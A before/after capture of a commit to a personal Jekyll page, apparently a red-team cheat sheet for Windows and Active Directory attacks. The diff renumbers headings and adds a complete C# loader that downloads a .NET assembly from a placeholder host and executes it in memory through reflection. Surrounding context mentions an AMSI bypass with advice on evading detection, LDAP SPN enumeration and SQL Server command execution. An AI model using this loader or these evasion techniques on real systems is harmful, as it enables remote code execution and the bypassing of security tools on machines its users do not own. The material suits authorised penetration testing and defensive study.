

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from offensive-notes.md, in a window 1280 px wide and 1400 px high, scrolled down 7819 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update offensive-notes.md

````diff
--- a/offensive-notes.md
+++ b/offensive-notes.md
@@ -7,9 +7,9 @@ This blog post has been updated based on some tools and techniques from Offensiv
 It should be useful in a lot of cases when dealing with Windows / AD exploitation. This is my quick and dirty cheat sheet.
 
 
-## Enumeration
+## 1) Enumeration
 
-### 1) LDAP AD enumeration
+### LDAP AD enumeration
 
 ```powershell
 #Build LDAP filters to look for users with SPN values registered for current domain
@@ -132,7 +132,6 @@ $parameters=@("arg1", "arg2")
 ```
 
 
-
 ### 3) Powershell AMSI Bypass
 
 Patching AMSI will help bypass AV warnings triggered when executing PowerShell scripts that are marked as malicious (such as PowerView). Do not use as-is in covert operations, as they will get flagged. Obfuscate, or even better, eliminate the need for an __AMSI bypass__ altogether by altering your scripts to beat signature-based detection.
@@ -379,9 +376,36 @@ Invoke-SQLOSCmd -Instance sql-1.cyberbotic.io -Command 'dir C:\' -RawResults
 Get-SqlServerLinkCrawl -Instance dcorp-mssql | select instance,links | ft
 ```
 
-## Domain Dominance
+## 10) Domain Dominance
 
-## Misc & Encoding
+## 11) NET Assembly Reflection - Web inject
+
+```cs
+using System;
+using System.Net;
+using System.Reflection;
+
+namespace Nappa
+{
+    class Program
+    {
+        static void ReflectFromWeb(string url)
+        {
+            WebClient client = new WebClient();
+            byte[] programBytes = client.DownloadData(url);
+            Assembly dotnetProgram = Assembly.Load(programBytes);
+            object[] parameters = new String[] { null };
+            dotnetProgram.EntryPoint.Invoke(null, parameters);
+        }
+        static void Main(string[] args)
+        {
+            ReflectFromWeb("http://CHANGEME/HelloReflectionWorld.exe");
+        }
+    }
+}
+```
+
+## 12) Misc & Encoding
 
 ##### PeZOR Packing and Encoding
 
````
Also changed, not shown: other parts of offensive-notes.md (+12 -14 lines).
